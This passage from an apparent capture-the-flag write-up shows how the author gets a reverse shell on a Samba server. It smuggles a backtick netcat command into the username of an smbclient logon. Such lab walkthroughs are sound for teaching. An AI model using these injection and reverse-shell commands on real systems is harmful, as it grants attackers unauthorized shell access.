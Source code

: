 Next, we try to get a reverse shell by running the following command:

```powershell
smb //10.10.10.3/tmp -U "/=`nohup nc -nv 10.10.14.8 4444 -e /bin/sh'"
```

However, we unfortunately get the following result:

![Untitled](Lame%203ebd1f539fad4de8915347c6689183d3/Untitled%2010.png)

This likely indicates that there is an issue with running the correct version of netcat as not all versions have the option "-e"

The workaround then is to login anonymously first before we log on via the command "logon":

```powershell
smbclient //10.10.10.3/tmp
```

This will give us the option of logging in anonymously, before we then run the log on command as follows:

```powershell
logon "./=`nohup nc -e /bin/sh 10.10.14.8 4444`"
```

We then press enter without entering any password and we see the following:

![Untitled](Lame%203ebd1f539fad4de8915347c6689183d3/Untitled%2011.png)

Checking back on our listening shell, we see the following:

![Untitled](Lame%203ebd1f539fad4de8915347c6689183d3/Untitled%2012.png)

